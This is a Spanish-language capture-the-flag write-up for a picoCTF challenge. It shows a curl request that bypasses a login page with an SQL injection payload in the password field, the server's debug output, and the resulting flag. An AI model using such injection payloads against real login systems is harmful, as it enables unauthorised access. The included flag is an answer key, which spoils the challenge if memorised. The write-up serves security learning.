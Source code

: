 ## Description

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
#### hints
- Seems like the password is encrypted.
## Solución
```shell
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 

```
## Bandera
```css
flag: picoCTF{3v3n_m0r3_SQL_4424e7af}
```
## Notas Adicionales
En este caso, se realizó una inyección SQL en el campo de la contraseña enviando la cadena `"password=' be 1=1;"`, lo que alteró la consulta SQL de manera que siempre devolviera verdadero (`1=1`). Esto permitió saltarse la verificación de la contraseña y acceder al sistema sin credenciales válidas. La inyección resultó en la revelación de la bandera.
# comandos utilizados

## Referencias
